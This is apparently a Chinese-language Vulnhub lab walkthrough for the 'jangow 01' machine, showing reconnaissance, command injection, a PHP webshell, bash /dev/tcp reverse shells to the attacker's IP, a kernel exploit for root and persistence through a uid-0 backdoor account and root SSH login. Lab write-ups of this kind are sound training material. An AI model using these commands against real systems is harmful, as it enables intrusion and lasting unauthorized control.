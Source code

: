 ```yaml
---
layout: post
title: jangow 01
subtitle: jangow 01
date: 2022-12-15 12:04
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - Vulnhub
  - 靶场实战
---
```

## jangow 01

靶机ip：192.168.56.118

kali攻击机ip：172.17.46.146

### 1. nmap扫描IP

靶机IP已知：

```shell
nmap -A 192.168.56.118
```

![image-20221215120422075.png](https://kyonk.v6.army:1443/KlHhcv.png)

### 2. 扫描目录

```shell
dirb http://192.168.56.118
```

```
http://192.168.56.118/server-status
http://192.168.56.118/site/index.html
http://192.168.56.118/site/wordpress/index.html
```

### 3. 访问网站

http://192.168.56.118

点击`site`进入新的页面，查看源码发现：

![image-20221215121549451.png](https://kyonk.v6.army:1443/HuwqNT.png)

```html
 <li class="nav-item"><a class="nav-link" href="busque.php?buscar=">Buscar</a></li>
```

在地址栏输入参数判断此处有命令执行漏洞

![image-20221215121829007.png](https://kyonk.v6.army:1443/OJ5Thb.png)

使用burp suit进一步测试

```
cat+busque.php
<?php system($_GET['buscar']); ?>
echo+"bash+-c+'0<%262-%3bexec+22<>/dev/tcp/172.17.46.146/4444%3bsh+<%2622+>%2622+2>%2622'"+>+shell.sh
find+/+-perm+-4000+2>/dev/null
```

经测试，能写入文件，但无法ping通kaliIP，无法反弹shell。使用一句话木马+antsword

```
buscar=echo '<?php @eval($_POST['para']); ?>' > test.php
```

成功连接，发现/site/wordpress/config.php 内容有用户名和密码。访问后报错

```
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
```

发现/.backup文件

```
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
```

尝试修改config.php中database和username。再次访问仍报错

目标机开启了21和80端口。尝试用户名密码登录ftp

```
ftp 192.168.56.118
desafio02 abygurl69
失败
ftp 192.168.56.118
jangow01 abygurl69
成功
```

![image-20221219214101588.png](https://kyonk.v6.army:1443/W3o0Y2.png)

进入后是在/var/www目录下，没什么收获，继续用AntSword

发现 /home/jangow01/user.txt

```
d41d8cd98f00b204e9800998ecf8427e
```

MD5解码

```
查询结果：
[空密码]/[Empty String]
```

```
systemd-private-d6139d42208945be97253054fca34ee2-systemd-timesyncd.service-cCdsLz
```

### 4. 反弹shell

使用AntSword的shell有时无回显，尝试反弹shell

在site目录下新建shell.sh写入如下内容，在终端执行

```shell
bash -c '0<&2-;exec 22<>/dev/tcp/192.168.56.102/443;sh <&22 >&22 2>&22'
```

==只有443端口可以，其他端口无法连接==

kali成功获取shell

![image-20221220154726740.png](https://kyonk.v6.army:1443/ReFxXh.png)

升级tty shell，输入

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20221220154914986.png](https://kyonk.v6.army:1443/JWFfqu.png)

成功升级界面，并切换到jangow01用户

![image-20221220155027321.png](https://kyonk.v6.army:1443/At7d64.png)

可尝试suid提权。

这里选择内核漏洞提权

### 5. 提升权限

```shell
uname -a #查看系统内核
# Linux jangow01 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
searchsploit ubuntu 4.4.0-31 #查找相关漏洞
```

![image-20221220155427153.png](https://kyonk.v6.army:1443/gFLQso.png)

使用**linux/local/45010.c** 。将文件复制下来，并编译

```shell
searchsploit -m 45010.c
gcc 44298.c -o 45010
```

![image-20221220155715500.png](https://kyonk.v6.army:1443/mPn78M.png)

可以使用ftp或AntSword上传到目标机**/home/jangow01/**目录下

```
ftp 192.168.56.118
jangow01
abygurl69
cd /home/jangow01
put 45010
ls
```

![image-20221220160244999.png](https://kyonk.v6.army:1443/8ZDtbp.png)

**chmod +x 45010** 添加权限后执行

成功获取root权限。发现root目录下proof.txt文件，内容：

```
da39a3ee5e6b4b0d3255bfef95601890afd80709
```

MD5查询结果：
[空密码]/[Empty String]

### 6. 权限维持

添加root用户

```shell
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```

排查技巧：

```shell
# 查询特权用户特权用户(uid 为0)
awk -F: '$3==0{print $1}' /etc/passwd
# 查询可以远程登录的帐号信息
awk '/\$1|\$6/{print $1}' /etc/shadow
# 除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
```

查看防火墙状态

```shell
ufw status
cat /etc/ufw/user.rules
```

打开或关闭某个端口

```shell
sudo ufw allow smtp　允许所有的外部IP访问本机的25/tcp (smtp)端口
udo ufw allow 22/tcp 允许所有的外部IP访问本机的22/tcp (ssh)端口
sudo ufw allow 53 允许外部访问53端口(tcp/udp)
sudo ufw allow from 192.168.1.100 允许此IP访问所有的本机端口
sudo ufw allow proto udp 192.168.0.1 port 53 to 192.168.0.2 port 53
sudo ufw deny smtp 禁止外部访问smtp服务
sudo ufw delete allow smtp 删除上面建立的某条规则
```

开启22端口

```shell
ufw allow 22/tcp
vi /etc/ssh/sshd_config
# 将#PermitRootLogin without-password改为PermitRootLogin yes
echo 'PermitRootLogin yes' >> /etc/ssh/sshd_config
输入/etc/init.d/ssh restart ，重启下ssh服务
```